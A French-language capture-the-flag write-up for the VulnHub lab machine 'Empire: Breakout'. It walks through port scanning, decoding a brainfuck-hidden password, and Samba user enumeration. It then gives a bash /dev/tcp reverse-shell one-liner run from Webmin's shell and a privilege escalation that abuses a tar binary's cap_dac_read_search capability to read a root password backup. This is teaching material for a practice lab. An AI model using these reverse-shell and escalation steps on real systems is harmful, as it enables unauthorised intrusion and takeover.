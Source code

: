 ```yaml
---
title: "CTF Empire: Breakout"
date: 2021-11-20
tags: ["Pentest", "CTF"]
download: https://www.vulnhub.com/entry/empire-breakout,751
---
```


## Avant propos

Le déroulé de ce hack a été réalisé sur une machine prévue à cette effet. Il est interdit de mener ce genre d'action sur une machine qui ne vous appartient pas sans l'accord de son ou sa propriétaire.  
Ce CTF a été réalisé avec une machine attaquante **Kali 2021.3** (`lsb_release -r`).

## Enumération

On récupère l'adresse IP de la machine distante avec **Netdiscover** `sudo netdiscover`.  
Avant de poursuivre, on exporte cette adresse dans une variable pour être tranquille par la suite `export IP=192.168.1.21`.  
Puis on créé un dossier dédié à ce CTF `cd Documents/ctf && mkdir EmpireBreakout && cd EmpireBreakout`.  
On lance **Nmap** pour scanner les ports de la machine distante.

```bash
$ nmap -sV -sT -p- $IP -oN nmap.txt
PORT      STATE SERVICE     VERSION
80/tcp    open  http        Apache httpd 2.4.51 ((Debian))
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
10000/tcp open  http        MiniServ 1.981 (Webmin httpd)
20000/tcp open  http        MiniServ 1.830 (Webmin httpd)
```

On a un serveur **Apache** 2.4.51 sur le port **80**, un serveur **Samba** 4.6.2 sur les port **139** et **445** et 2 deux serveurs **Webmin** (de 2 versions différentes) sur les ports **10000** et **20000**.

Sur la page d'accueil du serveur **Apache**, on a indice en bas du code source de la page HTML.

```txt
<!--
don't worry no one will get here, it's safe to share with you my access. Its encrypted :)

++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.

-->
```

C'est le fameux langage **brainfuck** qui retourne une sorte de mot de passe ".2uqPEfj3D<P'a-3".

Ensuite, on énumère le serveur **Samba** à la recherche d'un utilisateur avec l'outil **enum4linux**.

```bash
enum4linux -a $IP

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\cyber (Local User)
```

On a un utilisateur potentiel, "cyber".

Puis, on poursuit avec les 2 serveurs **Webmin** qui nous indiquent le host à utiliser.

```bash
sudo vim /etc/hosts
192.168.1.21    breakout.home
```

La connexion avec `cyber:.2uqPEfj3D<P'a-3` ne fonctionne pas sur le premier serveur avec le port **10000** mais sur le second avec le **20000**.

## Pénétration

Dans le menu de gauche, il y a une petite icone qui symbolise une commande shell. On va ouvrir un reverse shell pour être plus à l'aise. Dans un nouvel onglet de votre terminal, instanciez le serveur **Netcat** `nc -lanp 1234`. Puis dans le shell de Webmin, `bash -c 'bash -i >& /dev/tcp/192.168.1.33/1234 0>&1'`

On trouve le premier flag dans le répertoire de l'utilisateur "cyber".

```bash
$ cat user.txt
3mp!r3{You_Manage_To_Break_To_My_Secure_Access}
```

## Escalation

Dans le même répertoire, il y a un exécutable "tar", plus précisément un ELF (Executable and Linkable Format).

```bash
$ ls -la
-rwxr-xr-x  1 root  root  531928 Oct 19 15:40 tar
$ file tar
tar: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=727740cc46ed2e44f47dfff7bad5dc3fdb1249cb, for GNU/Linux 3.2.0, stripped
```

On affiche les *capabilities* (capacités) de cet exécutable avec la commande **getcap**.

```bash
$ getcap tar
tar cap_dac_read_search=ep
```

Cette [option](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#example-with-binary-3) signifie que le binaire sera capable de lire n'importe quel fichier. Cela tombe à pic car dans le dossier "/var/backups", on a un fichier que l'on voudrait pouvoir lire ".old_pass.bak" car on n'a pas les droits de lecture.

```bash
$ ./tar -cf back.tar /var/backups/.old_pass.bak
$ tar -xf back.tar
$ ls
back.tar  tar  user.txt  var
```

Le dossier "var" a été créé et on peut lire son contenu.

```bash
$ cat var/backups/.old_pass.bak
Ts&4&YurgtRX(=~h
```

Comme convenu, il contient un mot de passe, ce qui nous permet de nous connecter en tant qu'utilisateur "root".

```bash
$ su root
Password: Ts&4&YurgtRX(=~h
$ id
uid=0(root) gid=0(root) groups=0(root)
```

Et on trouve rapidement le second et dernier flag.

```bash
$ cd ~
$ cat rOOt.txt
3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}
```
